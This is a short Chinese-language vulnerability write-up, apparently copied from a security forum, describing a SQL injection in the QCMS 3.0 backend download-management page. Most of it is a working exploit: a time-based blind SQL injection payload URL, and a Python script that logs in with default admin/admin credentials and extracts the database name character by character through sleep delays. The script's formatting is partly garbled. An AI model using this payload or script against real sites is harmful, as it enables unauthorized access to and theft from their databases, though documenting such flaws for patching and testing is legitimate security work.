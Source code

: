 # QCMS 3.0 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3098](https://www.zhihuifly.com/t/topic/3098)

# QCMS 3.0 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

在后台下载管理处

![image](img/07a12d4529b003556f59a16b8a31beef.png)

构造payload

```
http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23 
```

这里直接附上简单脚本

```
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory
import requests

def getCookie():

url = ‘[http://127.0.0.1/admin.php](http://127.0.0.1/admin.php)’

data = {

‘username’:‘admin’,

‘password’:‘admin’

}

```
session = requests.session()
res = session.post(url, data)

return requests.utils.dict_from_cookiejar(res.cookies) 
```

def getDatabase(url, arr, cookies):

```
str = ''
requests.session()

for i in range(1, 11):
    for j in arr:
        data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
        # print(data)
        res = requests.get(url=data, cookies=cookies)
        # print(res.elapsed.total_seconds())
        if(res.elapsed.total_seconds() &gt; 5):
            str += j
            print(str)
            break
print('database=' + str) 
```

if **name** == ‘**main**’:

url = ‘[http://127.0.0.1/backend/down.html](http://127.0.0.1/backend/down.html)’

arr = []

```
for i in range(48, 123):
    arr.append(chr(i))

cookies = getCookie()
print(cookies)
getDatabase(url, arr, cookies) 
``` 
```

## 参考链接

> https://xz.aliyun.com/t/7269